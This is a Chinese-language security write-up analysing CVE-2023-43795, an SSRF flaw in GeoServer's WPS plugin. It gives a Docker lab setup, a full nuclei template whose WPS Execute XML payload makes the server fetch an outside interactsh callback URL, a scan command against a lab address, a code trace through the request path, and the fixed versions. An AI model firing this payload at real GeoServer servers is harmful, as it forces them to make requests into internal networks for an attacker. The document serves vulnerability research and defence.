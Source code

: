 

# CVE-2023-43795 GeoServer ssrf 漏洞分析 - 先知社区

CVE-2023-43795 GeoServer ssrf 漏洞分析

- - -

# 0x00 概述

GeoServer 是一个用 Java 编写的开源软件服务器，它可以让用户共享和编辑地理空间数据，GeoServer 遵循 OpenGIS Web 服务器规范，使用开放标准发布来自任何主要空间数据源的数据。经过分析，该软件存在ssrf漏洞，攻击者可以从服务端实现任意请求伪造。

| 字段  | 值   | 备注  |
| --- | --- | --- |
| 漏洞编号 | CVE-2023-43795 |     |
| 漏洞厂商 | GeoServer |     |
| 厂商官网 | [https://geoserver.org/](https://geoserver.org/) |     |
| 影响对象类型 | Web应用 |     |
| 影响产品 | GeoServer |     |
| 影响版本 | version<2.22.5,version < 2.23.2 |     |
|     |     |

# 0x01 漏洞影响

[https://github.com/geoserver/geoserver/security/advisories/GHSA-5pr3-m5hm-9956](https://github.com/geoserver/geoserver/security/advisories/GHSA-5pr3-m5hm-9956)

-   version<2.22.5,version < 2.23.2
    
-   需要安装 wps 插件
    

# 0x02 漏洞环境

基于 [https://github.com/vulhub/vulhub/tree/master/geoserver/CVE-2023-25157](https://github.com/vulhub/vulhub/tree/master/geoserver/CVE-2023-25157) 进行搭建，只是要安装wps插件

这里版本为2.22.1

安装对应版本的wps插件，下载：[https://sourceforge.net/projects/geoserver/files/GeoServer/2.22.1/extensions/geoserver-2.22.1-wps-plugin.zip/download，下载完之后解压](https://sourceforge.net/projects/geoserver/files/GeoServer/2.22.1/extensions/geoserver-2.22.1-wps-plugin.zip/download%EF%BC%8C%E4%B8%8B%E8%BD%BD%E5%AE%8C%E4%B9%8B%E5%90%8E%E8%A7%A3%E5%8E%8B)

修改docker compose：

```plain
version: '3'
services:
 web:
   image: vulhub/geoserver:2.22.1
   depends_on:
    - postgres
   ports:
    - "8080:8080"
    - "5005:5005"
   volumes:
     - ./startup.sh:/startup.sh
     - ./startup2.sh:/mnt/geoserver/bin/startup.sh
     - ./gs-web-wps-2.22.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gs-web-wps-2.22.1.jar
     - ./gs-wps-core-2.22.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gs-wps-core-2.22.1.jar
     - ./gs-wps-kml-ppio-2.22.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gs-wps-kml-ppio-2.22.1.jar
     - ./gt-csv-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gt-csv-28.1.jar
     - ./gt-process-geometry-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gt-process-geometry-28.1.jar
     - ./gt-xsd-kml-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gt-xsd-kml-28.1.jar
     - ./gt-xsd-wps-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gt-xsd-wps-28.1.jar
     - ./net.opengis.wps-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/net.opengis.wps-28.1.jar
     - ./opencsv-5.0.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/opencsv-5.0.jar
     - ./serializer-2.7.2.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/serializer-2.7.2.jar
   command: bash /startup.sh
 postgres:
   image: postgis/postgis:14-3.3-alpine
   environment: 
    - POSTGRES_PASSWORD=vulhub
    - POSTGRES_DB=geoserver
```

如果要调试的话，修改一下容器中的 `/mnt/geoserver/bin/startup.sh` 文件：

[![](assets/1701072011-d4046ba73acb5fcff31c7c301dec59a8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001330-3dc411d4-8a1b-1.png)

```plain
-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005
```

# 0x03 漏洞验证和利用

运行nuclei：

```plain
id: CVE-2023-43795

info:
  name: GeoServer WPS - Server Side Request Forgery
  author: DhiyaneshDK
  severity: critical
  description: |
    GeoServer is an open source software server written in Java that allows users to share and edit geospatial data. The OGC Web Processing Service (WPS) specification is designed to process information from any server using GET and POST requests. This presents the opportunity for Server Side Request Forgery. This vulnerability has been patched in version 2.22.5 and 2.23.2.
variables:
  string: "{{to_lower(rand_text_alpha(4))}}"
  value: "{{to_lower(rand_text_alpha(5))}}"

http:
  - raw:
      - |
        POST {{path}} HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/xml

        <?xml version="1.0" encoding="UTF-8"?>
        <wps:Execute version="1.0.0" service="WPS"
          xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
          xmlns="http://www.opengis.net/wps/1.0.0"
          xmlns:wfs="http://www.opengis.net/wfs"
          xmlns:wps="http://www.opengis.net/wps/1.0.0"
          xmlns:ows="http://www.opengis.net/ows/1.1"
          xmlns:gml="http://www.opengis.net/gml"
          xmlns:ogc="http://www.opengis.net/ogc"
          xmlns:wcs="http://www.opengis.net/wcs/1.1.1"
          xmlns:xlink="http://www.w3.org/1999/xlink"
                xsi:schemaLocation="http://www.opengis.net/wps/1.0.0 http://schemas.opengis.net/wps/1.0.0/wpsAll.xsd">
          <ows:Identifier>JTS:area</ows:Identifier>
          <wps:DataInputs>
            <wps:Input>
              <ows:Identifier>geom</ows:Identifier>
              <wps:Reference mimeType="application/json" xlink:href="http://{{interactsh-url}}" method="GET">
                <wps:Header key="{{string}}" value="{{value}}"/>
              </wps:Reference>
            </wps:Input>
          </wps:DataInputs>
          <wps:ResponseForm>
            <wps:RawDataOutput>
              <ows:Identifier>result</ows:Identifier>
            </wps:RawDataOutput>
          </wps:ResponseForm>
        </wps:Execute>

    payloads:
      path:
        - /wms
        - /geoserver/wms

    stop-at-first-match: true
    matchers:
      - type: dsl
        dsl:
          - contains(interactsh_protocol, 'http')
          - contains_all(to_lower(interactsh_request), '{{string}}','{{value}}')
          - status_code == 200
        condition: and
```

```plain
nuclei.exe -t CVE-2023-43795.yaml -u http://192.168.88.132:8080/
```

[![](assets/1701072011-7e65a5154e1067863eaceb53f3c91e88.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001342-45562a0e-8a1b-1.png)

# 0x04 漏洞分析

访问 `/geoserver/wms` ，在`org.geoserver.ows.Dispatcher` 的 `service()` 中，会调用 `this.findService()` 确定要调用的service：

[![](assets/1701072011-185e53745e09469184f7bb4c1f2df48a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001412-56da9076-8a1b-1.png)

调用 `this.execute()` ：

[![](assets/1701072011-2498afa16d3506a1e69b5bb5150d4c81.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001421-5cb628c0-8a1b-1.png)

来到 `org.geoserver.wps.DefaultWebProcessingService` 的 `execute()` ：

[![](assets/1701072011-e674b5110b821d87a753c5cf95806b66.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001430-61ddfb20-8a1b-1.png)

跟进由一个 `executionManager` 负责处理 request ：

[![](assets/1701072011-b5a386de3bd62dbd4ea9e16a20448cd3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001438-66bf4b26-8a1b-1.png)

最终调用一个 `WPSExecutionManager$Executor` 对象的 `call()` ：

[![](assets/1701072011-1ece104e45a58e23a9f3b87e37b7c43a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001446-6b5e0e74-8a1b-1.png)

最终触发 `org.apache.http.impl.client.CloseableHttpClient.execute()` 实现ssrf：

[![](assets/1701072011-ebb24a81a0bcbfd67f6c1d62f33e2c58.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001453-6f813512-8a1b-1.png)

[![](assets/1701072011-94401f052c43739adbe98004ae9a365d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001459-733248c2-8a1b-1.png)

# 0x05 漏洞修复

更新版本到 >=2.22.5 ，或更新版本>= 2.23.2
